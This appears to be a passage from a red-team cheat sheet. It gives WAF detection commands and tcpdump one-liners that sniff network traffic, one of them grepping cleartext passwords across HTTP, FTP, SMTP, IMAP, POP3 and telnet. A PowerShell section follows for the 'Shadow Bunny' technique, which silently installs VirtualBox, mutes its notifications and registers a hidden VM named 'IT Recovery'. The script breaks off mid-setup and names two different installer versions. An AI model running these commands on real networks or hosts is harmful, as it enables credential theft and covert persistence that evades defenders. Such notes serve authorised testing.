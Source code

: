 
Waf Detect

nuclei -l urls.txt -t nuclei_templates/waf
sudo apt install wafw00f
wafw00f -l urls.txt







##  Show DNS traffic
tcpdump -i <interface> -nn -l udp port 53

 
##  Show HTTP User-Agent & Hosts
tcpdump -i <interface> -nn -l -A -s1500 | egrep -i 'User-Agent:|Host:'


##   Show HTTP Requests & Hosts
tcpdump -i <interface> -nn -l -s 0 -v | egrep -i "POST /|GET /|Host:"


##  Show email recipients
tcpdump -i <interface> -nn -l port 25 | egrep -i 'MAIL FROM\|RCPT TO'


##  Show FTP data
tcpdump -i <interface> -nn -v port ftp or ftp-data


##  Show all passwords different protocols
tcpdump -i wlan0 port http or port ftp or port smtp or port imap or port pop3 or port telnet -l -A | egrep -i -B5 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user '




### Virtual Machines

> Based on the Shadow Bunny technique.

```ps1
# download virtualbox
Invoke-WebRequest "https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe" -OutFile $env:TEMP\VirtualBox-6.1.8-137981-Win.exe

# perform a silent install and avoid creating desktop and quick launch icons
VirtualBox-6.0.14-133895-Win.exe --silent --ignore-reboot --msiparams VBOX_INSTALLDESKTOPSHORTCUT=0,VBOX_INSTALLQUICKLAUNCHSHORTCUT=0

# in \Program Files\Oracle\VirtualBox\VBoxManage.exe
# Disabling notifications
.\VBoxManage.exe setextradata global GUI/SuppressMessages "all" 

# Download the Virtual machine disk
Copy-Item \\smbserver\images\shadowbunny.vhd $env:USERPROFILE\VirtualBox\IT Recovery\shadowbunny.vhd

# Create a new VM
$vmname = "IT Recovery"
.\VBoxManage.exe createvm --name $vmname --ostype "Ubuntu" --register

# Add a network card in NAT mode
.\VBoxManage.exe modifyvm $vmname --ioapic on  # required for 64bit
```